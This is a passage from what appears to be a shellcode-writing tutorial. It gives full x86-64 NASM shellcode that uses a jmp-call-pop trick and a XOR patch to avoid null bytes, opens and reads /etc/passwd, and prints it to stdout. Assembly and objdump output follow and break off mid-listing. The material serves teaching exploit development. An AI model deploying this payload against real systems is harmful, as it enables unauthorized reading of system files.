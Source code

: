```nasm

        xor rax, rax
        mov al, 0x3c     ; We set RAX to 60 (exit syscall number)
        syscall
```

# 4. The shellcode
The whole shellcode will look like this:

```nasm
_start:
        jmp L1
L2:
        pop rdi
        xor byte [rdi + 11], 0x41
        xor rax, rax
        add al, 0x2
        xor rsi, rsi
        syscall

        mov rdi, rax
        lea rsi, [rsp]
        xor rdx, rdx
        mov dx, 0xfff
        xor rax, rax
        syscall

        xor rdi, rdi
        mov dil, 0x1
        mov rdx, rax
        xor rax, rax
        mov al, 0x1
        syscall

        xor rax, rax
        mov al, 0x3c
        syscall
L1:
        call L2
        file: db "/etc/passwdA"
```

Now we will assemble, compile and check the shellcode opcodes to see if there is "00" bytes.

```bash
$ nasm -f elf64 shellcode.s -o shellcode.o

$ ld -o shellcode shellcode.o             
ld: warning: cannot find entry symbol _start; defaulting to 0000000000400080

$ objdump -d shellcode

shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 39                	jmp    4000bb <L1>

0000000000400082 <L2>:
  400082:	5f                   	pop    %rdi
  400083:	80 77 0b 41          	xorb   $0x41,0xb(%rdi)
  400087:	48 31 c0             	xor    %rax,%rax
```